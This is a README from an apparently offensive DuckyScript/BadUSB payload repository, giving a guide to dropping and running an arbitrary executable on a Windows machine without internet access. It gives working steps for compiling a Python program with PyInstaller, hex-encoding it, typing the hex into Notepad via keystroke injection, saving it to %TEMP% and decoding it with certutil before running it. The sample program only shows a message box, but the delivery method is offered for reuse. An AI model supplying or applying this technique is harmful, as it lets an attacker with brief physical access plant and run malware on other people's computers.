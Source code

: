 # Install And Run Any Arbitrary Executable - No Internet And Root Needed

Through this guide you will be able to create executable programs that can be installed via DuckyScript in such a way as to avoid using the Internet altogether. This type of installation can lead to serious damage to machines so do it only if you are fully aware and sure of what you are doing, in this example you will already find the code in hexadecimal but if you want to be sure recompile the executable following the following guide.

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

**Category**: Execution

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

# Guide to Creating an Executable Program using Python

## Introduction

This guide provides detailed instructions on how to use Python to create an executable program, generate hexadecimal code, and automate the execution of the application trough DuckyScript. Practical example in assets directory.

## Creating the Python Program

To begin, create a Python program that performs the desired functionality. You can use any programming language of your choice, but for this guide, we'll be using Python.

```python
import ctypes

ctypes.windll.user32.MessageBoxW(None, "Hello Hak5!", 'Info', 0x10 | 0x1)
```

## Creating the Executable using PyInstaller

Once the Python program is ready, we can use PyInstaller to create an executable file. PyInstaller converts the Python program into a standalone executable that can be run on any compatible system without requiring Python to be installed.

Install PyInstaller using the following command:

```powershell
pip install pyinstaller
```

To create the executable, run the following command in the terminal:

```powershell
pyinstaller --onefile full/path/to/the/file/example.py
```

Replace `example.py` with the filename of your Python script. The `--onefile` flag ensures that the output is a single executable file. Remember that the executable file can be found within the path `dist/example.exe`.

## Generating Hexadecimal Code

Next, we'll generate the hexadecimal code from the executable file. This step is necessary if you intend to automate the execution of the program.

To generate the `hexadecimal` code, you can use various methods or libraries. In this case I decided to create another program in Python capable of doing this conversion, the partial code is as follows but you can find the entire file in the assets folder.

```python
# Rest of the code...
with open(filename, 'rb') as file:
    binary_data = file.read()
    hex_code = binascii.hexlify(binary_data).decode()
# ...
```

## Creating a DuckyScript to Automate Execution

To create the payload in DuckyScript you simply add the hexadecimal code inside a STRING command immediately after opening the notepad.

```duckyscript
DEFINE #HEX_CODE <hexadecimal_code>

DELAY 500
GUI r
DELAY 500
STRING notepad.exe
ENTER
DELAY 500
STRING #HEX_CODE

DELAY 2000
ALT F
DELAY 1000
STRING S
DELAY 1000
ALTSTRING "%TEMP%\script.hex"
```

Replace `<hexadecimal_code>` with the actual hexadecimal code generated in the previous step. I used a combo ALT F and STRING S for save the file using `"%TEMP%\script.hex"` that save it in a `TEMP` directory

## Decoding Hexadecimal Code and Executing the Program
Now, we need to decode the hexadecimal code and execute the program. We can use the `certutil` command again to accomplish this.

Save the DuckyScript file as `script.hex` and run the following command in the Command Prompt:

```powershell
certutil -f -decodeHex "%TEMP%\script.hex" "%TEMP%\script.exe"
```

Replace `script.exe` with the desired output filename for the decoded program.

Finally, run the executable on the computer, or any other compatible device, to open start execution of the program.

These are the steps required to create an executable program with Python, generate the hexadecimal code, and automate its execution. Feel free to modify the instructions to suit your specific needs or programming language preferences.

Happy Hacking!

## Credits

<h2 align="center"> Aleff :octocat: </h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://github.com/aleff-github">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/github.png?raw=true width="48" height="48" />
      </a>
      <br>Github
    </td>
    <td align="center" width="96">
      <a href="https://www.linkedin.com/in/alessandro-greco-aka-aleff/">
        <img src=https://github.com/aleff-github/aleff-github/blob/main/img/linkedin.png?raw=true width="48" height="48" />
      </a>
      <br>Linkedin
    </td>
  </tr>
</table>
</div>